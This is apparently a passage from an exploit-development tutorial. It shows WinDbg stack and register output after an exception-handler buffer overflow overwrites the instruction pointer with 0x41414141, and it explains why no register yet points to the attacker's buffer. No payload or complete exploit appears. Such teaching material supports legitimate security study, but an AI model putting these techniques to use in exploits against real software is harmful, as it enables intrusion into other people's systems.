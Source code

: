 Okay, we have control over the instruction pointer, but we need to point it to our code. Let's see if any of the register points to our buffer. Also, let's inspect the stack frame to see if our payload is there:
```c
0:007> dds esp
0090f440  77316252 ntdll!ExecuteHandler2+0x26
0090f444  0090f540
0090f448  0090ff44
0090f44c  0090f55c
0090f450  0090f4cc
0090f454  0090fe0c
0090f458  77316270 ntdll!ExecuteHandler2+0x44
0090f45c  0090ff44
0090f460  0090f528
0090f464  77316224 ntdll!ExecuteHandler+0x24
0090f468  0090f540
0090f46c  0090ff44
0090f470  0090f55c
0090f474  0090f4cc
0090f478  41414141
0090f47c  0090ff44
0090f480  0090f540
0090f484  00000000
0090f488  772dd4db ntdll!RtlDispatchException+0x143
0090f48c  0090f540
0090f490  0090ff44
0090f494  0090f55c
0090f498  0090f4cc
0090f49c  41414141
0090f4a0  0090fb10
0090f4a4  0090ff08
0090f4a8  0090f540
0090f4ac  00000000
0090f4b0  0090f55c
0090f4b4  0090ff44
0090f4b8  00000032
0090f4bc  0090f000
0:007> r
eax=00000000 ebx=00000000 ecx=41414141 edx=77316270 esi=00000000 edi=00000000
eip=41414141 esp=0090f440 ebp=0090f460 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
41414141 ??              ???
```

According to the output in Listing 107, none of the registers point to our buffer at the moment we gain control over the execution. The ECX register is being overwritten alongside the instruction pointer while most of the other registers are NULL. We do not overwrite any data on the stack (which ESP and EBP point to). Lastly, EDX appears to point somewhere inside the ntdll!ExecuteHandler2 function. 

At this point, even if we control the instruction pointer, we are still not able to easily redirect the execution flow to our buffer where we’d eventually store a payload.
